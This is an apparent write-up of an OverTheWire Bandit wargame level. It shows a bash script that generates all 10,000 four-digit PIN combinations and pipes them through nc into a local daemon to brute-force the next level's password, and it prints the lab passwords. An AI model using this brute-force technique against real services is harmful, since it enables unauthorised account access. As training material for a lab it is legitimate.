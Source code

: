 ***A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.***

This one is interesting; we need to devise a fast way to concatenate the password of the current level with a 4-digit numeric pincode, ranging from 0000-9999, and then feed that to the daemon on port 30002 in quick succession. 

We can begin by creating a shell script to print out all iterations of the concatenation:

**`bandit24@bandit:~$ cd /tmp/rajh`**  
**`bandit24@bandit:/tmp/rajh$ vim bruteforce.sh`**  
```
#!/bin/bash

for i in {0000..9999}
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> bruteforce_list
done
```
**`bandit24@bandit:/tmp/rajh$ chmod 777 bruteforce.sh`**  
**`bandit24@bandit:/tmp/rajh$ ./bruteforce.sh`**  
**`bandit24@bandit:/tmp/rajh$ ls`**  
*`bruteforce_list bruteforce.sh`*  
OPTIONAL: **`bandit24@bandit:/tmp/rajh$ cat bruteforce_list`**  

Now that we have a full list of all concatenated iterations, let's establish a connection with port 30002, and output the contents of the list to that port. It'd also behoove us to limit our output to only return the output correlating to a correct combination. Since I assume the output will be the same for every incorrect attempt, we can use the uniq command to return the unique output: 

**`bandit24@bandit:/tmp/rajh$ cat bruteforce_list | nc localhost 30002 | uniq -u`**  
*`I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.`*  

After letting this execute, it appears there's a problem; the session times out after a bit. It seems we are limited to the amount of iterations we can attempt in a single session. Thus, we will have to split and execute our list in parts, requiring us to amend our shell script:

**`bandit24@bandit:/tmp/rajh$ vim bruteforce.sh`**  
```
#!/bin/bash

for i in {0000..4999}
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> bruteforce_list1
done

for i in {5000..9999}
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> bruteforce_list2
done
```
**`bandit24@bandit:/tmp/rajh$ ./bruteforce.sh`**  
**`bandit24@bandit:/tmp/rajh$ ls`**  
*`bruteforce_list  bruteforce_list1  bruteforce_list2  bruteforce.sh`*  

Let's try again:

**`bandit24@bandit:/tmp/rajh$ cat bruteforce_list1 | nc localhost 30002 | uniq -u`**  
*`I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.`*  

This one times out. Next one:

**`bandit24@bandit:/tmp/rajh$ cat bruteforce_list2 | nc localhost 30002 | uniq -u`**  
*`I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.`*  
*`Correct!`*  
*`The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`*
